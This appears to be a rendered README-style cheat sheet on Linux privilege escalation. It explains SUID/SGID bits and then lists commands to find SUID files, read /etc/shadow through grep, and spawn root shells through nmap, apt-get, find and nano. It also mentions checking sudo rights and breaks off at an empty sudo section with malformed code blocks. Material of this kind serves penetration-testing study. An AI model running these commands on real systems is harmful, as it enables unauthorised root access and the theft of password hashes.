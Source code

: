 

## SUID/SGID binaries Privilege escalation

SUID and SGID (short for "set user ID" and "set group ID") are Unix access rights flags that allow users to run an executable with the permissions of the executable's owner or group respectively and to change behaviour in directories. They are often used to allow users on a computer system to run programs with temporarily elevated privileges in order to perform a specific task. While the assumed user id or group id privileges provided are not always elevated, at a minimum they are specific. 


Using below command we can list SUID files

```
find / -perm -4000 -type f 2>/dev/null
```

## Exploiting common SUID's

**GREP**
To read data from a file

```
file = /etc/shadow
```
```
grep '' $file
```

**Nmap**
To spawn system shell

```
nmap --interactive
nmap> !sh
```
**apt-get**
To spawn root shell

```
apt-get changelog apt
!/bin/sh
```
**Find**
To spwan root shell

```
find . -exec /bin/sh \; -quit

**Nano**
```
nano 

<ctrl + R> <ctrl + X>
reset; sh 1>&0 2>0
```

**Sudo Permissions**

Sudo provide system permissions to user on temporary basis to allow users to run commands as root.


All sudoers can be found in /etc/sudoers file

To check sudo permission or status for current user
```
sudo -l
```
The output will show us what can user do by sudo.

**Sudo Privilege Escalation** 
```